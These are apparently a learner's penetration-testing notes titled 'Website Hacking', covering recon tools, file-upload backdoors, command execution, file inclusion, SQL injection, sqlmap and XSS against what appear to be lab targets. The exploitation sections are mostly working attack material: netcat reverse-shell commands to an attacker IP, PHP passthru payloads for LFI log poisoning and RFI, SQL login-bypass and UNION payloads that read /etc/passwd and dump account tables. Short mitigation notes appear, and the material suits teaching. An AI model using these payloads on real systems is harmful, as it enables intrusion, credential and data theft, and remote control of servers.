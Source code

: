 Website Hacking
===============

Information Gathering
---------------------

* IP Address
* Domain name info
* Technologies used
* Other websites on the same server
* DNS records
* Unlisted files, sub-domains, directories

1. Whois lookup - find info about owner of the target

    * http://whois.domaintools.com

2. Netcraft Site Report - shows technologies used on the target

    * http://toolbar.netcraft.com/site_report?url=

3. Robtex DNS lookup - shows comprehensive info about the target website

    * https://www.robtex.com

Websites on the Same Server
^^^^^^^^^^^^^^^^^^^^^^^^^^^

* One server can server a number of websites
* Gaining access to one can help gain access to others

To find websites on the same server:

1. Use robtex DNS lookup under "names pointing to the same IP"
2. Using bing.com, search for ip:[target ip]

Discovering Subdomains
^^^^^^^^^^^^^^^^^^^^^^

Knock can be used to find subdomains of target

1. Discover more information
2. Discover new web applications
3. Increase attack surface
4. Discover managemment areas
5. Beta / experimental features

.. code-block:: bash

    knockpy google.com

Files and Directories
^^^^^^^^^^^^^^^^^^^^^

* Find files and directories in target webasite
* a tool called dirb

    * `dirb [target] [wordlist] [options]`

Exploitation
------------

File Upload Vulnerabilities
^^^^^^^^^^^^^^^^^^^^^^^^^^^

* Simple type of vulnerabilities
* llow users to upload dexecutable files such as php

Upload a php shell or backdoor, ex: weevly

1. Generate backdoor: `weevly generate [password] [filename]`
2. Upload generated file
3. Connect to it: `weevly [url to file] [password]`
4. Find out how to use weevly `help`

Code Execution Vulnerabilities
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* If theres a command execution box  or something
* Allows an attacker to execute OS commands
* Windows or linux commands
* Can be used to get a reverse shell
* Or upoad any file using wget command
* Code execution commands attached in the resources

.. code-block:: bash

    # Listen on your machiine on port 8080
    nc -vv -l -p 8080

    # The ip address of your machine for reverse connection - this will connect from the remote machine to your machine
    nc -e /bin/sh 10.20.14.203 8080

Local File Inclusion
^^^^^^^^^^^^^^^^^^^^

* If theres a URL like this: ?page=include.php
* Allow an attacher read any file on the same server
* Access files outside www directory

**Shell from LFI**

* Try to inject code into readable files
* Example:

    * /prod/self/environ

.. code-block:: bash

    # with burp suite modify the user-agent with:
    <?passthru("nc -e /bin/sh 10.20.14.208 8888");?>

    * /var/log/auth.log

.. code-block:: bash

    # encode this  with base64
    ssh "<?passthru('nc -e /bin/sh 10.20.14.208 8888');?>"@10.20.14.210

    # encode with burpsuite like this:
    ssh "<?passthru(base64_decode('dkfhewkhohwkeff'));?>"@10.20.14.210

    * /var/log/apache2/access.log



Remote File Inclusion
^^^^^^^^^^^^^^^^^^^^^

* If theres a URL like this: ?page=include.php, put in /?page=http://10.20.14.203/reverse.txt
* Similar to local file inclusion
* But allows attacher to read any file from any server
* Execute php files from other servers on the current server
* Store php files on other servers as .txt

.. code-block:: bash

    /etc/php5/cgi/php.ini
        allow_url_fopen = on
        allow_url_include = on

.. code-block:: php

    <?php
    
    // save this as a txt file - it must be a webserver which kali has

    passhru("nc -e /bin/sh 10.20.14.203 8080")

    ?>

Mitigation
^^^^^^^^^^

1. File Upload Vulns - only allow safe files to be uploaded
2. Code Execution Vulns

    * Dont use dangerous functions
    * Filter use input before execution

3. File inclusion

    * Disable allow_url_fopen and allow_url_include
    * Use static file inclusion

SQL Injection
-------------

1. They are everywhere
2. Give access to the database - sensitive data
3. Can be used to read local files outside www root
4. Can be used to log in as admin and further exploit system
5. Can be  used to upload files

Discovering SQLi in POST
^^^^^^^^^^^^^^^^^^^^^^^^

* Try to break the page
* Using 'and', 'order by' or "'"
* Test text boxes and url parameters on the form

    * http://target.com/page.php?something=something

.. code-block:: bash

    # use a single quote when logging in to see the code
    # use and 1=1
    # and 1=0 to see if that works in the case of blind sql injection
    # aNd 111=111
    # OrDeR bY 1

    # input your code like this in the password field:
    123456' code here#

.. code-block:: bash

    # bypass need for password in the  password field
    aaa' or 1=1 #

    # bypass need for password in the username field
    admin' #

.. code-block:: bash

    # You can do the same with URLs if the UL has ?page=user-info.php&username=caleb
    # you can inject ?page=user-info.php&username=caleb' order by 1#

.. code-block:: bash

    # union select 1,table_name,null,null,5 from information_schema.tables where table_schema = 'owasp10'
    # union select 1,column_name,null,null,5 from information_schema.columns where table_name = 'accounts'
    # union select 1,username,password,is_admin,5 from accounts
    # union select null,load_file('/etc/passwd'),null,null,null
    # union select null,'example  example',null,null,null into outfile '/var/www/mutillidae/example.txt'
    # uNiOn/**/sElEcT/**/1,2/**/%23

Exploitation
^^^^^^^^^^^^

* SQLMap was designed to exploit sql injections
* Works with many DB types, mysql, mssql, etc.
* Can be used to perform everything we learned and more

.. code-block:: bash

    sqlmap --help

    # this is the full url including all the other stuff that comes after the url
    sqlmap -u [target url]

    # Get the dbs
    sqlmap -u URL --dbs

    # Current user, database, tables, columns, data
    sqlmap -u URL --current-user
    sqlmap -u URL --current-database
    sqlmap -u URL --tables -D owasp10
    sqlmap -u URL --columns -T accounts -D owasp10
    sqlmap -u URL -T accounts -D owasp10 --dump

Preventing SQLi
^^^^^^^^^^^^^^^

* Filters can be bypassed
* Use black  list of commands? Still can be bypassed
* Use whitelist? Same issue
* Use parameterized statments, seperate data from sql code

.. code-block:: bash

    prepare("select * from accounts where username = ?")
    execute  (array('$admin' union select #'))

XSS Vulnerabilities
-------------------

* Allow an attacker to inject javascript code into the page
* Code is executed when the page loads
* Code is executed on the client machine not the server

Three main types
1. Persistent/stored XSS
2. Reflected XSS
3. DOM based XSS

Discovering XSS
^^^^^^^^^^^^^^^

* Try to inject javascript code into the pages
* Test text boxes and url parameters on the form
* http://target.com/page.php?something=something

Reflected XSS
^^^^^^^^^^^^^

* None persistent, not stored.
* Only work if the target visits a specially crafted URL
* http://target.com/page.php?something=<script>alert("XSS")</script>
* <script>alert("XSS")</script>

Stored XSS
^^^^^^^^^^

* Persistent, stored on the  page or DB
* The injected code is executed every time the  page is loaded

Exploiting XSS
^^^^^^^^^^^^^^

* Run any javascript code
* Beef framework can be used to hook targets
* Inject Beef hook in vulnerable pages
* Execute code from beef

Preventing XSS Vulns
^^^^^^^^^^^^^^^^^^^^

* Minimise the usage of user input on html
* Escape any untrusted input before inserting it into the page

Discovering Vulnerabilities Automatically
-----------------------------------------

Zed Attack Proxy ZAP
^^^^^^^^^^^^^^^^^^^^

* Automatically find vulnerabilities in web applications
* free and easy to use
* can also be used for manual testing

Pentest Methodology
-------------------

* Info Gathering
* For every domain / subdomain

    * click on every link

        * for every link

            * test parameters

